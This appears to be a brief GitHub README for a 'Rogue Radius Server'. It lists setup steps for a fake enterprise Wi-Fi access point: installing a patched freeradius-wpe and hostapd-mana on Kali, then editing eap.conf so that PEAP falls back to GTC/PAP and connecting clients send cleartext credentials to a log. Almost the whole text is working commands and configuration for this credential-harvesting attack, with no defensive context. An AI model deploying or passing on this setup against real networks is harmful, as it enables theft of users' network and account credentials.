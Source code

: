 # Rogue_Radius_Server
Rogue Radius Server (freeradius patch + hostapd). 

# 1. Install freeradius with patch
How to: https://github.com/brad-anton/freeradius-wpe
# 2. Create hostapd.conf - I use mana-tooklit (Kali linux)
apt-get install mana-toolkit hostapd
# Start the hostapd.conf:
# 3. Script for start
start.sh

# after that edit eap.conf in /usr/local/etc/raddb:

in eap { 
			default_eap_type = peap
gtc {
			auth_type = PAP
peap {
				default_eap_type = gtc
# 4. Save and run: radiusd -X
# 5. After that run: hostapd  hostapd-mana-eaponly.conf

# logs: usr/local/var/log/radius# leafpad freeradius-server-wpe.log
